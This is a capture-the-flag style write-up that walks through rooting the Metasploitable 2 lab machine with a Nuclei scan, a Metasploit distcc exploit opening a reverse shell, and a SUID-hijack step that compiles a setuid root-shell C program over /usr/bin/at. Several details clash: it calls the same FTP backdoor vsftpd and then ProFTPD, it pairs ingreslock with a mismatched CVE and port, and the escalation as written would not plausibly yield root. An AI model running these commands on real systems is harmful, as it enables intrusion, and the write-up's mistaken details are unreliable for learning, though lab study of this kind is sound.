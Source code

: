 
---

# 🧨 Metasploitable 2 — The Hard Way to Root 🚀👑

**Author:** Tayler Derden  
**Category:** CTF / Exploitation Lab  
**Difficulty:** 🔴 Hard  
**Tags:** `PHP-CGI`, `Nuclei`, `LinPEAS`, `Privilege Escalation`, `SUID Hijacking`, `Linux`

---

## 📘 Description

**While this machine is known for its trivial `vsftpd 2.3.4`(`https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/unix/ftp/vsftpd_234_backdoor.rb`) backdoor, this write-up documents a deliberately chosen, more challenging path to simulate a scenario where common exploits might fail. Instead of taking the easy way, the focus was on deep analysis and exploiting less obvious misconfigurations.**

This challenge is based on the classic **Metasploitable 2** virtual machine.  
The goal: identify vulnerabilities through deep enumeration, gain initial access, and escalate privileges to become **root**.

While there are simpler, well-known paths on this machine, **this write-up documents a deliberate choice to explore less obvious vectors**, simulating a scenario where common exploits might fail. The path involved multiple dead ends, including a patched PHP-CGI vulnerability and a failed PwnKit exploit, ultimately leading to a successful privilege escalation by exploiting a **SUID binary misconfiguration**.

---

## 🔍 Reconnaissance

### Initial Foothold & Deep Scan

Initial enumeration quickly identifies several "low-hanging fruit" vulnerabilities, such as a **backdoored ProFTPD on port 21**. However, choosing the easy path offers little challenge. Instead, the focus was shifted to a more comprehensive analysis of the machine's entire attack surface.

A full vulnerability scan was performed using **Nuclei** to uncover less trivial entry points.

```bash
nuclei -u http://192.168.58.3
```

**Key Results from Nuclei (Ignoring the obvious FTP backdoor):**

| Port | Service     | Finding                                  | Notes                                    |
|------|-------------|------------------------------------------|------------------------------------------|
| 3632 | distcc      | **RCE via CVE-2004-2687**                | **Chosen vector for initial access**     |
| 5432 | PostgreSQL  | Default credentials (postgres:postgres)  | Excellent alternative for access/pillage |
| 6200 | ingreslock | RCE via backdoored service (CVE-2011-2523) | Another solid RCE vector                 |

---

## 🔥 Vulnerability: distcc Command Execution (RCE)

The `distcc` service, a distributed compiler, was running on port 3632 and was vulnerable to **CVE-2004-2687**, allowing unauthenticated remote code execution. This vector was selected for being a more interesting and less common entry point than the FTP backdoor.

- **Metasploit module:** `exploit/unix/misc/distcc_exec`

---

## 💣 Exploitation

### Step 1: Launch Metasploit Exploit

```bash
msf6 > use exploit/unix/misc/distcc_exec
msf6 exploit(unix/misc/distcc_exec) > set RHOSTS 192.168.58.3
msf6 exploit(unix/misc/distcc_exec) > set LHOST 192.168.58.1
msf6 exploit(unix/misc/distcc_exec) > set PAYLOAD cmd/unix/reverse_perl
msf6 exploit(unix/misc/distcc_exec) > run
```

🎉 **Result:** Reverse shell obtained as **daemon (UID 1)**.

---

## 🧠 Privilege Escalation

### Step 2: Surgical Enumeration with LinPEAS

A full LinPEAS scan was initially overwhelming. To focus the search, a targeted scan was used to find only misconfigured file permissions.

```bash
# On the victim machine
./linpeas.sh -o interesting_perms_files
```
🔎 This immediately revealed the critical vulnerability:

`You own the SUID file: /usr/bin/at`

This means the `daemon` user has write permissions on a binary that is owned by `root` and has the SUID bit set.

### Step 3: Exploit via SUID Binary Hijacking

The strategy was to replace the legitimate `/usr/bin/at` binary with a custom payload that spawns a root shell.

```bash
# 1. Back up the original binary
mv /usr/bin/at /tmp/at.bak

# 2. Create a C payload to spawn a root shell
echo '#include <unistd.h>
int main() {
    setuid(0); setgid(0);
    execl("/bin/sh", "sh", NULL);
    return 0;
}' > /tmp/evil_at.c

# 3. Compile the payload and replace the original binary
gcc /tmp/evil_at.c -o /usr/bin/at

# 4. Restore the SUID bit
chmod +s /usr/bin/at

# 5. Execute the hijacked binary
/usr/bin/at
```
🔥 Boom → A new shell appeared with **root access**.

---

## 🏆 Final Outcome

✔️ Performed deep enumeration with **Nuclei**, bypassing initial dead ends.  
✔️ Exploited **distcc (CVE-2004-2687)** → gained reverse shell as `daemon`.  
✔️ Performed targeted enumeration with **LinPEAS**.  
✔️ Escalated privileges by **hijacking a writable SUID binary (`/usr/bin/at`)**.  
✔️ Achieved **ROOT**!

---

## 🔬 CIA Triad Impact

| Property        | Impact                                                                    |
|-----------------|---------------------------------------------------------------------------|
| Confidentiality | 🔴 Full disclosure of all system data, including `/etc/shadow` and user files. |
| Integrity       | 🔴 Attacker can modify any file, install backdoors, and manipulate logs.    |
| Availability    | 🔴 The system can be fully disabled or destroyed by the attacker.           |

---

## 🛡️ Mitigation

- **Patch Services:** Update or disable vulnerable services like `distcc`.
- **Principle of Least Privilege:** Run services with dedicated, unprivileged users.
- **File Integrity Monitoring:** Use tools like `AIDE` or `Tripwire` to detect unauthorized changes to critical system binaries.
- **SUID/SGID Auditing:** Regularly audit SUID/SGID files and remove permissions where they are not strictly necessary.

---

## 💡 Reflection

This lab was a masterclass in persistence and methodical problem-solving.
- It proved that while simple paths like the **ProFTPD backdoor** exist, a deeper analysis reveals a much richer and more educational attack surface.
- Reinforced the power of **targeted enumeration** over "spray and pray" tactics.
- Showcased a classic, reliable privilege escalation technique that is often more effective than complex kernel exploits.
- The path was not linear; it required adapting to failures and re-evaluating intelligence, which is the essence of a real penetration test.

🔥 This wasn't just about getting root; it was about earning it through analysis, precision, and the deliberate choice of a more challenging path.
